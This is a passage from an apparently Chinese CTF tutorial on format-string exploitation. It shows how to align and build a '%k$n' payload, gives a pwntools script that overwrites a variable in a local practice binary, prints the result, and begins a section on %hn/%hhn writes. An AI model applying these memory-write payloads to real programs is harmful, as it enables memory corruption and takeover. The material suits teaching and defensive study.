 ```c
  } else if (b == 0x12345678) {
    puts("modified b for a big number!");
  }
  return 0;
}
```

### 覆盖任意地址

#### 覆盖小数字

这里以将 a 覆盖为 2 为例。需要将覆盖的目标地址后置，因为机器字长为 4 （64 位是 8）。

构造字符串如下：

```
aa%k$nxx[addr]
```

``aa`` 两个可见字符，所以最后会向目标地址写入 2 。``k`` 目标地址的偏移位置。``xx`` 让字符串对其机器字长，这里是 4 。``[addr]`` 覆盖的目标地址。

##### 怎么对齐

对齐方法在 32 64 程序中，覆盖大数字、小数字中都通用，以上面这个为例。python 使用 len 计算长度后，用机器字长取余，余数就是对齐长度。

```python
# 32位机器字长：4
# 64位机器字长：8
>>> len("aa%k$n")%4
2
```

第一个可控字符偏移是 6 ，``aa%k$nxx`` 长度为 8 （不会算就 python len），所以 k 偏移应该是 8 。

构造覆盖小数字利用代码：

```python
def fora():
    sh = process('./overwrite')
    a_addr = 0x0804A024
    payload = 'aa%8$naa' + p32(a_addr)
    sh.sendline(payload)
    print sh.recv()
    sh.interactive()
```

对应的结果如下

```
>>>python exploit.py
0xffc1729c
aaaa$\xa0\x0modified a for a small number.
```

#### 覆盖大数字

覆盖基本结构和上面差不多，区别是通常是覆盖大数字会分次覆盖，避免一下数据太大而不成功，所以会用到标志 ``hhn`` 或 ``hn`` 。
